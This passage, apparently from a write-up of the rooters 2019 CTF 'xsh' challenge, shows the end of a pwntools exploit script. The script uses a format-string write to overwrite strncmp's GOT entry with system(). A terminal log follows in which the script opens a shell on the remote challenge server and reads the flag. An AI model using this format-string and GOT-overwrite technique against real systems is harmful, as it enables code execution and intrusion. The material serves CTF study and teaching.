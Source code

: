 ```python

log.info('PIE base: ' + hex(elf.address))
log.info('strncmp_got: ' + hex(strncmp_got))
log.info('system: ' + hex(system))

# Prepare to write system to strncmp_got
# Calculate each half of the address
# This is to prevent the exploit from taking way too long to write a huge address
first = int('0x' + hex(system)[-4:], 16)
second = int(hex(system)[:6], 16)

# Do the format string overwrite
payload = 'echo' + p32(strncmp_got) + p32(strncmp_got+2)
payload += '%{}c%24$n%{}c%25$n'.format(first-4-3, second-first)
execute(payload)

# Execute /bin/sh for shell
p.recv()
p.sendline('/bin/sh')

# When strncmp('/bin/sh') gets called, it will call system('/bin/sh')
p.interactive()
```

```sh
vagrant@ubuntu-bionic:/ctf/pwn-and-re-challenges/rooters-2019/xsh$ ./exploit.py REMOTE
[*] '/ctf/pwn-and-re-challenges/rooters-2019/xsh/xsh'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/pwn-and-re-challenges/rooters-2019/xsh/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 35.192.206.226 on port 5555: Done
[*] PIE base: 0x565a4000
[*] strncmp_got: 0x565a8038
[*] system: 0x565a5090
[*] Switching to interactive mode
$ ls
flag.txt
vuln
$ cat flag.txt
rooters{ep1c_xsh_esc4p3}ctf
$
```
